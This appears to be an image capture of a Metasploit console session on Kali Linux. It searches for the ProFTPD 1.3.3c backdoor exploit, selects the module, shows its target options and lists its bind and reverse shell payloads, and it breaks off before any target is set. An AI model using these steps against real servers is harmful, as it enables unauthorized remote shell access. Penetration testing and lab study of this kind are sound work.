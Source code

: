 ┌──(kali㉿kali)-[~]
└─$ sudo msfconsole -q               
msf6 > 
msf6 > search ProFTPD 1.3.3c
 
Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_133c_backdoor  2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_133c_backdoor

msf6 >  use 0
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options 

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads 

Compatible Payloads
===================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1  payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2  payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   3  payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   4  payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   5  payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
